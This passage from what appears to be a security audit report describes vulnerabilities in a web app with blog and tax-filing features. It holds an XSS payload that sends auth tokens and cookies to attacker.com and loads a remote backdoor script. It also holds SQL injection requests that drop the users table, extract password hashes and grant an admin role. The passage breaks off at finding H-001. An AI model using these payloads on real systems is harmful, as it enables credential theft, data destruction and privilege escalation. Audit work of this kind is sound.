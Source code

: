 **Exploitation:**
```javascript
// Attack: Inject malicious JavaScript into blog content
const maliciousContent = `
<img src="x" onerror="
  // Steal all user tokens
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      tokens: localStorage.getItem('authToken'),
      adminAuth: localStorage.getItem('adminAuth'),
      cookies: document.cookie
    })
  });
  
  // Inject backdoor for persistent access
  const script = document.createElement('script');
  script.src = 'https://attacker.com/backdoor.js';
  document.head.appendChild(script);
">
`;
```

#### C-004: SQL Injection via Blog Search Functionality
**File:** `server/storage.ts` (Lines 435-437)  
**Severity:** CRITICAL (CVSS: 9.3)  
**Impact:** Complete database compromise

```typescript
// VULNERABLE CODE - Blog search implementation
like(blogPosts.title, `%${options.searchTerm}%`),
like(blogPosts.content, `%${options.searchTerm}%`),
like(blogPosts.summary, `%${options.searchTerm}%`)
// ❌ CRITICAL: searchTerm not validated before database query
```

**Exploitation:**
```sql
-- Attack: SQL injection via search
GET /api/blog?searchTerm=%'; DROP TABLE users; --

-- Extract sensitive data
GET /api/blog?searchTerm=%' UNION SELECT password_hash,email,phone FROM users --

-- Privilege escalation
GET /api/blog?searchTerm=%'; UPDATE users SET role='admin' WHERE id=123; --
```

---

### **HIGH SEVERITY VULNERABILITIES**

#### H-001: Personal Information Input Validation Bypass
**File:** `client/src/features/tax-filing/components/PersonalInfoStep.tsx`  
**Severity:** HIGH (CVSS: 7.8)  
**Impact:** Data corruption and injection attacks
